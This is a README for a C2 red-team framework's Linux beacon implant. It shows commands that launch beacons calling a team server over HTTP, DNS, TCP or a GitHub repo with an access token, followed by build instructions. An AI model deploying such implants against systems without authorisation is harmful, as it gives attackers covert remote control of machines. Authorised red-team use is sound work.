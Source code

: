 # Exploration C2 Linux Implant

## Overview

**Exploration** is a modular Command and Control (C2) framework designed for red team operations. This repository provides the **Beacon** component implemented in C++ for targeting Linux systems. The associated TeamServer and Client components are available in the [C2TeamServer](https://github.com/maxDcb/C2TeamServer) repository.

Multiple Beacons in this project are capable of communicating with the TeamServer over various channels. Supported transport mechanisms include HTTP/HTTPS, GitHub, DNS, and TCP.

## Communication Examples

```bash
# HTTP/HTTPS
BeaconHttp <TEAMSERVER_IP> <LISTENER_PORT> <http|https>
BeaconHttp 10.10.10.10 8443 https
BeaconHttp 10.10.10.10 8080 http

# GitHub
BeaconGithub <GITHUB_USER/REPO> <ACCESS_TOKEN>
BeaconGithub maxDcb/C2Implant ghp_dsfgdfhdf5554456g4fdg465...

# DNS
BeaconDns <DNS_SERVER> <TEAMSERVER_DOMAIN>
BeaconDns 8.8.8.8 bac.superdomain.com

# TCP
BeaconTcp <LISTENER_IP> <LISTENER_PORT>
BeaconTcp 127.0.0.1 4444
```

## Build Instructions

### Submodules & External Dependencies

This project utilizes several external libraries and tools:

* [Donut](https://github.com/TheWover/donut): Generates shellcode from PE files.
* [COFFLoader](https://github.com/trustedsec/COFFLoader): Executes object files, such as those in [CS-Situational-Awareness-BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF).
* [cpp-base64](https://github.com/ReneNyffenegger/cpp-base64): Provides base64 encoding/decoding.
* [nlohmann/json](https://github.com/nlohmann/json): JSON parsing library.

### Building the Linux Beacons and Modules

Initialize submodules and prepare the build environment:

```bash
git submodule update --init
mkdir build
cd build
```

Compile with or without tests and logging:

```bash
# With tests and logs
cmpake .. -DCMAKE_PROJECT_TOP_LEVEL_INCLUDES=./conan_provider.cmake -DWITH_TESTS=ON

# Without tests and logs
cmake .. -DCMAKE_PROJECT_TOP_LEVEL_INCLUDES=./conan_provider.cmake -DWITH_TESTS=OFF

make -j4
```

Project can also be build with the C2Core package:

```
# download last linux package
url="$(curl -sH 'Accept: application/vnd.github+json' \
  ${GITHUB_TOKEN:+-H "Authorization: Bearer $GITHUB_TOKEN"} \
  'https://api.github.com/repos/maxDcb/C2Core/releases?per_page=100' \
  | jq -r '[.[] | select(.tag_name|startswith("linux-"))]
           | sort_by(.created_at) | reverse
           | .[0].assets[]
           | select(.name|test("^C2Core-Linux.*"))
           | .browser_download_url' | head -n1)"

fname="${url##*/}"
curl -L "$url" -o "$fname"
echo "Downloaded: $fname"

mkdir -p C2Core-Linux && tar -xzf C2Core-Linux.tar.gz -C C2Core-Linux

export CMAKE_PREFIX_PATH=`pwd`/C2Core-Linux

cmake .. -DCMAKE_PROJECT_TOP_LEVEL_INCLUDES=./conan_provider.cmake

make -j4
```


### Output Locations

* Compiled Beacons: `Release/Beacons`
* Compiled Modules: `Release/Modules`
